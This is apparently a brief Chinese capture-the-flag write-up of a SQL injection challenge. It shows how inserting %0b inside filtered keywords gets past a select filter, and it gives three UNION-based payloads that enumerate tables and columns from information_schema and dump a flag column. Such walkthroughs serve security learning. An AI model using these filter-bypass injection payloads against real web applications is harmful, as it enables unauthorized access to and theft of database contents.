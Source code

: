 简单的sql注入

尝试一下发现过滤了select等关键词

但可以通过插入%0b来绕过过滤

设置id=-1 通过union select 来回显

```sql
?id=-1 union sel%0bect 1,2,group_concat(table_name) fr%0bom information_schema.tables得到两张表flag，news
?id=-1 union sel%0bect 1,2,group_concat(column_name) fr%0bom information_schema.columns w%0bhere table_name=0x666c6167# 得到列名flag
?id=-1 union sel%0bect 1,2,group_concat(flag,0x3a) fr%0bom flag
```
